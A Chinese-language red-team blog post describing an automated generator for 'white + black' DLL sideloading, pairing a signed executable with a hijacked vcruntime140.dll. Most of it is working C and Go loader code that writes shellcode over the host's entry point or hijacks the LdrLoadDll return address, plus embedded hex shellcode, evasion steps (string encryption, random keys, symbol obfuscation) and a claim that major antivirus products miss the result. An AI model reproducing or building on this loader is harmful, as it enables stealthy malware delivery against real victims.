










# 红队开发 - 白加黑自动化生成器

参考一些APT组织的攻击手法，它们在投递木马阶段有时候会使用“白加黑”的方式，通常它们会使用一个带有签名的白文件+一个自定义dll文件，所以研究了一下这种白加黑的实现方式以及如何将它自动化生成。

## 想法

最早源于知识星球的一个想法，利用一些已知的dll劫持的程序作为”模板”,自动生成白加黑的程序。



之后在看到了`SigFlip`的原理后 [SigFlip使用和原理](SigFlip使用和原理.md)


有了这么一个想法，将shellcode写入到签名文件中的不被签名区域，黑dll的作用仅仅是读取白文件中的dll并执行。

同时制作几个白加黑的“模板”，可以根据不同的模板生成不同的白加黑样本。

概念图：



## DLL劫持方式

大部分dll劫持只是在dll层面做一层转发，这样投递的话，要将整个软件一起打包，不然程序会运行出错。

而一些APT组织使用的白加黑样本仅仅只需要一个白文件和一个dll，所以dll的劫持方式和通常使用的是不一样的。

简单来说，我们需要让dll加载起来执行命令的同时，阻止它执行原程序的命令，总结了一下，一共有两种类型的dll需要处理，一种dll是存在于白程序的输入表中，一种是白程序输入表中不存在dll，但是它通过`LoadLibrary`进行加载的dll。

### Pre-Load Dll 劫持

如果dll在白程序的输入表中，我称这种为`pre-load dll`(我自己发明的词语)。因为输入表的dll会优先于白程序运行，所以在dll在初始化时，可以先获取shellcode，然后对白程序的入口点进行改写，改写为执行shellcode即可。

用Vscode的更新程序`inno_updater.exe`作为例子



inno_updater.exe在运行时会带起`vcruntime140.dll`，所以它可以作为劫持的dll。



根据它输入表dll的导出函数，我们自动生成一份对应的导出函数，导出函数不需要任何功能，只要函数名称和它对应上即可。

之后在dllmain里面获取主程序的入口点，然后将shellcode写入入口点，之后主程序运行就会执行我们的shellcode了。

C代码如下
```c 
int WINAPI DllMain(HINSTANCE hInstance, DWORD fdwReason, PVOID pvReserved)
{
        switch (fdwReason)
        {
        case DLL_PROCESS_ATTACH:
            hello_func();
            break;
        case DLL_PROCESS_DETACH:
            break; 
        }
        return TRUE;
}
void hello_func()｛
    DWORD baseAddress = (DWORD)GetModuleHandleA(NULL);
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)baseAddress;
    PIMAGE_NT_HEADERS32 ntHeader = (PIMAGE_NT_HEADERS32)(baseAddress + dosHeader->e_lfanew);
    DWORD entryPoint = (DWORD)baseAddress + ntHeader->OptionalHeader.AddressOfEntryPoint;
    DWORD old;
    VirtualProtect(entryPoint, size, 0x40, &old);
    for(int i=0;i<size;i++){
        *((PBYTE)entryPoint+i) = shellcode[i];
    }
    VirtualProtect(entryPoint, size, old, &old);
｝

```

### Post-Load Dll劫持

dll在主程序导入表没有，而是程序通过`LoadLibrary`动态调用的，我称这类dll为`post-load`类型(我自己发明的词语)。

当程序使用`LoadLibrary`进行加载的时候，它的调用堆栈类似以下
``` 
KernelBase!LoadLibraryExW <- 要求动态模块加载
ntdll!LdrLoadDll
ntdll!LdrpLoadDll
ntdll!LdrpLoadDllInternal
ntdll!LdrpPrepareModuleForExecution
ntdll!LdrpInitializeGraphRecurse <- 建立依赖关系图
ntdll!LdrpInitializeNode
ntdll!LdrpCallInitRoutine
evil!DllMain <- 执行被传递给外部代码

```

所以此类dll劫持的,可以通过劫持`ntdll`的`LdrLoadDll`堆栈的返回地址，让程序LoadLibrary之后跳到我们的程序空间。

C语言代码
```c 
char evilstring[10] = {0x90}; 
DWORD ldrLoadDll = (DWORD)GetProcAddress(GetModuleHandle("ntdll"), "LdrLoadDll");
DWORD* stack =evilstring+(int)evilstring%4;
while (1)
{
    stack++;
    if(stack > ldrLoadDll + 0x1000){
        printf("over\n");
        break;
    }
    if (*stack > ldrLoadDll && *stack < ldrLoadDll + 0x1000) {
        *stack = (DWORD)Memory;
        break;
    }
}

```

你可以使用内嵌汇编的方式获得堆栈地址，我使用C语言的一个特性，我申明了一个小的变量
``` 
char evilstring[10] = {0x90};

```

C语言会自动将它放到堆栈中，所以这个变量的地址即是堆栈的地址了。接着从堆栈向上寻找地址，如果发现地址和`LdrLoadDll`相差不多的话，就是我们寻找的`LdrLoadDll`的返回地址，hook它即可获得代码的执行权。

## Golang与自动生成

我想用Golang编写劫持的dll，这样也方便可以做成在线平台。

### C代码转换为Go

读取PE入口点用来写shellcode，用Windows API `GetModuleHandle`可以得到PE进程的内存地址，根据内存地址加减偏移就可以得到入口点。

我原本使用了`github.com/Binject/debug/pe`库，它里面有一个`pe.NewFileFromMemory()`函数，可以直接从内存中读取，但是它的参数是需要一个`io`类型，文件的io自身有很多api，但是对内存的io，资料好少。

最后找了很多资料，发现只能自己实现io的接口
```go 
type ReaderAt interface {
    ReadAt(p []byte, off int64) (n int, err error)
}

```

但问题来了，`ReadAt`接口要求我们自己读完了就返回`io.EOF`，我是从内存空间读的，我不知道什么时候读完。

就这么纠结了好久，虽然现在写的时候想到了，我可以实现这个`ReadAt`，长度我可以生成模板的时候硬写进去，但又感觉没必要，因为我根据PE的偏移写好了。

直接就不用它的库了，手动根据偏移去寻找入口点。
```go 
var (
    kernel32           = syscall.NewLazyDLL("kernel32.dll")
    getModuleHandle    = kernel32.NewProc("GetModuleHandleW")
    procVirtualProtect = kernel32.NewProc("VirtualProtect")
)
func GetModuleHandle() (handle uintptr) {
    ret, _, _ := getModuleHandle.Call(0)
    handle = ret
    return
}
// 将shellcode写入程序ep
func loader_from_ep(shellcode []byte) {
    baseAddress := GetModuleHandle()

    fmt.Println(strconv.FormatInt(int64(baseAddress), 16))
    // pe读dos header
    ptr := unsafe.Pointer(baseAddress + uintptr(0x3c))
    v := (*uint32)(ptr)
    ntHeaderOffset := *v
    //ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(0x4))
    //v2 := (*uint16)(ptr)
    // 这个可以读取PE的架构信息，最后发现入口点的偏移都是固定的

    // x32和x64通用
    ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(40))
    ep := (*uint32)(ptr)
    fmt.Println(ep, *ep)

    var entryPoint uintptr
    entryPoint = baseAddress + uintptr(*ep)

    var oldfperms uint32
    if !VirtualProtect(unsafe.Pointer(entryPoint), unsafe.Sizeof(uintptr(len(shellcode))), uint32(0x40), unsafe.Pointer(&oldfperms)) {
        panic("Call to VirtualProtect failed!")
    }

    WriteMemory(shellcode, entryPoint)

    if !VirtualProtect(unsafe.Pointer(entryPoint), uintptr(len(shellcode)), uint32(oldfperms), unsafe.Pointer(&oldfperms)) {
        panic("Call to VirtualProtect failed!")
    }
}

```

### Go实现DllMain

DllMain是dll在创建或退出时的消息函数，要把shellcode写入PE的入口点，就必须在这里执行代码。但是Go里面没有这样相关的定义，搜索资料，有人说用`init()`函数可以，我试了下，`init()`函数执行是在代码运行的时候加载的，也就是pe运行了，执行到了相关导出函数的时候，会先执行`init()`代码，但是这个时候写shellcode到PE头部就已经没用了。

最后发现了怎么做，就是混编C和Go,而且比较麻烦。

dllmain.go
```go 
package main

//#include "dllmain.h"
import "C"

```

dllmain.h
```c 
#include <windows.h>

extern void test();

BOOL WINAPI DllMain(
    HINSTANCE _hinstDLL,  // handle to DLL module
    DWORD _fdwReason,     // reason for calling function
    LPVOID _lpReserved)   // reserved
{
    switch (_fdwReason) {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, 0, test, NULL, 0, NULL);
        break;
    case DLL_PROCESS_DETACH:
        // Perform any necessary cleanup.
        break;
    case DLL_THREAD_DETACH:
        // Do thread-specific cleanup.
        break;
    case DLL_THREAD_ATTACH:
        // Do thread-specific initialization.
        break;
    }
    return TRUE; // Successful.
}

```

main.go
```go 
package main

import "C"

import (
    "encoding/hex"
    "fmt"
    "strconv"
    "syscall"
    "unsafe"
)

const (
    MEM_COMMIT     = 0x00001000
    MEM_RESERVE    = 0x00002000
    MEM_RELEASE    = 0x8000
    PAGE_READWRITE = 0x04
)

var (
    kernel32           = syscall.NewLazyDLL("kernel32.dll")
    getModuleHandle    = kernel32.NewProc("GetModuleHandleW")
    procVirtualProtect = kernel32.NewProc("VirtualProtect")
)


//WriteMemory writes the provided memory to the specified memory address. Does **not** check permissions, may cause panic if memory is not writable etc.
func WriteMemory(inbuf []byte, destination uintptr) {
    for index := uint32(0); index < uint32(len(inbuf)); index++ {
        writePtr := unsafe.Pointer(destination + uintptr(index))
        v := (*byte)(writePtr)
        *v = inbuf[index]
    }
}
func GetModuleHandle() (handle uintptr) {
    ret, _, _ := getModuleHandle.Call(0)
    handle = ret
    return
}
func VirtualProtect(lpAddress unsafe.Pointer, dwSize uintptr, flNewProtect uint32, lpflOldProtect unsafe.Pointer) bool {
    ret, _, _ := procVirtualProtect.Call(
        uintptr(lpAddress),
        uintptr(dwSize),
        uintptr(flNewProtect),
        uintptr(lpflOldProtect))
    return ret > 0
}

// 将shellcode写入程序ep
func loader_from_ep(shellcode []byte) {
    baseAddress := GetModuleHandle()
    ptr := unsafe.Pointer(baseAddress + uintptr(0x3c))
    v := (*uint32)(ptr)
    ntHeaderOffset := *v
    ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(40))
    ep := (*uint32)(ptr)

    var entryPoint uintptr
    entryPoint = baseAddress + uintptr(*ep)
    var oldfperms uint32
    if !VirtualProtect(unsafe.Pointer(entryPoint), unsafe.Sizeof(uintptr(len(shellcode))), uint32(0x40), unsafe.Pointer(&oldfperms)) {
        panic("Call to VirtualProtect failed!")
    }
    WriteMemory(shellcode, entryPoint)
    if !VirtualProtect(unsafe.Pointer(entryPoint), uintptr(len(shellcode)), uint32(oldfperms), unsafe.Pointer(&oldfperms)) {
        panic("Call to VirtualProtect failed!")
    }
}

//export _except_handler4_common
func _except_handler4_common() {}

//export memcmp
func memcmp() {}

//export memcpy
func memcpy() {}

//export memset
func memset() {}

//export memmove
func memmove() {}

//export test
func test() {
    shellcode, err := hex.DecodeString("fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c6300") // calc的shellcode
    if err != nil {
        panic(err)
    }
    loader_from_ep(shellcode)
}

func main() {
}

```

编译脚本 (Windows上)
``` 
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -ldflags "-s -w" -o vcruntime140.dll -buildmode=c-shared

```

### Golang与死锁

在DllMain DLL_PROCESS_ATTACH的时候，我想调用go里面的`test`函数，我必须使用线程。。如果直接调用，不使用线程的话，它会一直卡住，用od调试，发现它卡在了死锁上。。

Go程序内部调用了wait



用了CreateThread可以，但是这个时候它是先执行了入口点，而我们之前`Pre-load`的方式要求dll要在白程序之前执行。

我的解决方式是在白程序入口点写入死循环代码，同时启动一个线程执行go函数。

死循环的代码就随便发挥了
``` 
77C71B73    50              push eax
77C71B74    58              pop eax
77C71B75  ^ EB FC           jmp short 77C71B73

```



### 消失的代码

有了之前被死锁的经验，`post-load`类型的dll我这样写的，用C代码搜索堆栈，如果找到了`LdrLoadDll`堆栈函数范围的地址则直接把堆栈地址修改成go函数的地址。

cgo中dllmain.h代码,因为测试了几次发现不行，加了个`MessageBoxW`代码方便调试。
```c 
#include <windows.h>

extern void test();

void dlljack2(){
    char evilstring[10] = { 0x90 };
    DWORD ldrLoadDll = (DWORD)GetProcAddress(GetModuleHandleA("ntdll"), "LdrLoadDll");
    DWORD* stack = (DWORD)evilstring + (DWORD)evilstring % 4;
    while (1)
    {
        stack++;
        if ((DWORD)stack > ldrLoadDll + 0x1000) {
            break;
        }
        if (*stack > ldrLoadDll && *stack < ldrLoadDll + 0x1000) {
            *stack = (DWORD)test;
            MessageBoxW(0,0,0,0);
            break;
        }
    }
}
BOOL WINAPI DllMain(
    HINSTANCE _hinstDLL,  // handle to DLL module
    DWORD _fdwReason,     // reason for calling function
    LPVOID _lpReserved)   // reserved
{
    switch (_fdwReason) {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(0,0,0,0);
        dlljack2();
        break;
    case DLL_PROCESS_DETACH:
        // Perform any necessary cleanup.
        break;
    case DLL_THREAD_DETACH:
        // Do thread-specific cleanup.
        break;
    case DLL_THREAD_ATTACH:
        // Do thread-specific initialization.
        break;
    }
    return TRUE; // Successful.
}

```

测试了几次发现不行，于是我用ida看了下代码。


``` 
*stack = (DWORD)test;

```

我的这行代码将test函数地址赋值给堆栈的代码竟然凭空消失了。

很百思不得其解，难道编译器不认识语法将代码给优化了？顺着这个思路，我换成用`memcpy`进行内存赋值，代码也没出现。

最后加上一个printf，代码就出现了。。



## 自动化生成器

前面核心的内容跑通了，后面自动化生成就是理所当然的，这方面没什么困难的，就是注意一下加一些对抗的东西，比如生成的源码里面的字符串全部加密，用于加解密shellcode的key全部随机化生成。将源码一起打包，并告诉编译方式，这样即使生成的dll被杀了也没关系，自己改改又可以继续了。

一些核心功能：

  * 收集一些白加黑文件，制作成模板
  * 解析白文件pe，将shellcode写入证书目录
  * 根据模板来生成劫持dll
  * go-strip进行符号混淆
  * docker环境进行交叉编译
  * 自动调用go命令进行编译
  * 自动打包成zip


生成的文件会包含:

  * 成品的白加黑文件
  * 用于dll劫持的go源码文件，方便自行进行一些处理
  * readme说明文件，说明了每个文件的作用以及编译方法




## 杀毒测试

测试了国内的几个都不杀，卡巴静态也能过，windows defender 也不杀也能正常上线。

并且白进程会一直驻留。



## 最后

demo地址:https://i.hacking8.com/dll-hijack
